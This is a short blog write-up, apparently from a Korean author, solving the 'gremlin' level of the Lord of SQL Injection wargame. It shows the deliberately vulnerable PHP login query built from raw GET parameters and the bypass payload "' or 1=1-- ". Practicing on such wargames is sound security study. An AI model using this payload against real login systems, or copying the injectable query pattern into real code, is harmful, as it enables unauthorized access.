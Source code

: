 ```yaml
---
layout: post
title:  "los prob_gremlin"
date:   2019-08-10
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query: select id from prob_gremlin where id='' and pw=''

~~~ php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
~~~

# Solve

딱히 필터링이 없으므로 바로 sql injection 구문을 넣으면 된다. 

?id=' or 1=1-- 

실행되는 구문 -> select id from prob_gremlin where id='' or 1=1-- ' and pw=''

## GREMLIN Clear!
